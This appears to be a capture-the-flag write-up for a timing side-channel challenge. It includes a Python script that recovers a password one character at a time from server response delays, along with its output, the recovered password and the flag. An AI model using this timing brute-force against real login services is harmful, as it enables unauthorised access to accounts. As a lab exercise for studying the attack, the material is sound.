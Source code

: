 By testing different inputs, we noticed that the server adds ~100 ms for each correct character.
We can recover the password one character at a time by picking the character with the longest response time. 
The delay stops after 10 characters, so the password is 10 characters long.

```python
import string
import requests
import re

url = "http://127.0.0.1:1337/"

password = ""
for i in range(20):
    best_char = ""
    best_time = -1
    for c in string.ascii_letters + string.digits:
        guess = password + c
        r = requests.get(url, params={"password": guess})
        match = re.search(r"Response time: ([\d.]+) ms", r.text)
        time_ms = float(match.group(1))
        if time_ms > best_time:
            best_time = time_ms
            best_char = c
    password += best_char
    print(f"password: {password}, time: {best_time}")

# password: H, time: 100.92
# password: H8, time: 202.36
# password: H8i, time: 302.03
# password: H8iO, time: 402.79
# password: H8iOb, time: 504.32
# password: H8iObj, time: 604.61
# password: H8iObjI, time: 705.44
# password: H8iObjIc, time: 804.93
# password: H8iObjIcS, time: 905.67
# password: H8iObjIcSr, time: 1008.11
# password: H8iObjIcSrj, time: 1011.4
# password: H8iObjIcSrjL, time: 1009.95
# correct password -> H8iObjIcSr
```

Flag: `K17{aLL_iN_go0d_t1m3}`
